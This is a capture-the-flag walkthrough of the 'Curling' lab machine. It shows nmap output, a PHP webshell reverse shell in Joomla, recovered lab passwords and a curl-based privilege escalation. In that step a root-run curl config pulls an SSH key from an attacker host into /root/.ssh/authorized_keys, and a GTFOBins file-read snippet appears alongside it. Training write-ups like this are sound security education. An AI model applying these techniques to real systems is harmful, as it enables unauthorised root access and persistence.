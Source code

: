 # Curling

---

## Enumeration

- Nmap scan showed ports 22, 80 ports open:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8ad169b490203ea7b65401eb68303aca (RSA)
|   256 9f0bc2b20bad8fa14e0bf63379effb43 (ECDSA)
|_  256 c12a3544300c5b566a3fa5cc6466d9a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Found secret.txt in page source
- got b64 text, decoded to `Curling2018!`
- used cewl on site to get wordlist
- user is `Floris`

---

## Lateral Movement

- Got rev shell using PHP webshell in templates as www-data
- found password-backup in /home/floris, a hex dump
- used xxd -r password-backup, kept decompressing it until i got password.txt
- `5d<wdCbdZu)|hChXll` is password for floris on the machine
- user flag.

---

## Priv Esc

- got pspy64 on the machine and ran it
- found root running curl -K and reading config file from file input
- https://gtfobins.github.io/gtfobins/curl/#suid url can be file:///
- poc: get file:///etc/passwd -> get /root/root.txt

```
It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The file path must be absolute.

LFILE=/tmp/file_to_read
curl file://$LFILE
```

### I used a different method!

1. Generated ssh key pair on my local machine
2. id_rsa.pub into authorized_keys and started python http server
3. edited the config file for curl on victim machine:

```
url = "http:/10.10.16.2/authorized_keys"
output = "/root/.ssh/authorized_keys"
```

4. login with id_rsa as root!

---

